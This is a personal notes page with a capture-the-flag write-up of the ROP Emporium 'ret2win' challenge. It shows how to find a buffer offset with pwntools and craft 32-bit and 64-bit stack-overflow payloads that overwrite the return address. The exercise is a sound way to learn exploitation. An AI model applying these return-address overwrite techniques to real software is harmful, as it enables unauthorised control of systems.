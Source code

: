 Links [[00 - Global Index (Start Here!)]] [[ROP Emporium]]

# [[ret2win]]
# Contents
***
- Task Description
- 32 bit
- 64 bit

## Task Description
---
Locate a method that you want to call within the binary.  
Call it by overwriting a saved return address on the stack.

## 32 bit
---
File checks:
32 bit ELF with no canaries
Checking function from within pwndbg.
Three of intrest; main, pwnme, ret2win

For the exploit all that is needed is the buffer size and the location of the ret2win function.

make a cyclic pattern.
```python
from pwn import *
g = cyclic_gen()
g.get(100)
```
Then use ```g.find()``` to get the buffer size of 44.
The ret2win function has a memory location of 0x804862c
little endian byte
```
\x2c\x86\x04\x08
```
Generate the payload
```bash
python2 -c 'print "A"*44+"\x2c\x86\x04\x08"' > payload.32bit
```
Run it against the binary. This works and gives out the flag.
```flag
ROPE{a_placeholder_32byte_flag!}
```

## 64 bit
***
File Checks
64bit ELF with no canaries
Same three function as the 32bit
Find the buffer size by adding 4 bytes to the RBP
which is 40 bytes
find the memory location of the ret2win functions.
0x400756
memory location needs to be 8 bytes
0x0000000000400756
convert to little endian
```bash

\x56\x07\x40\x00\x00\x00\x00\x00
```
Add the buffer and run the payload

---
Creation date: 08-10-2022

Last modified date: Sunday 8th October 2022
***

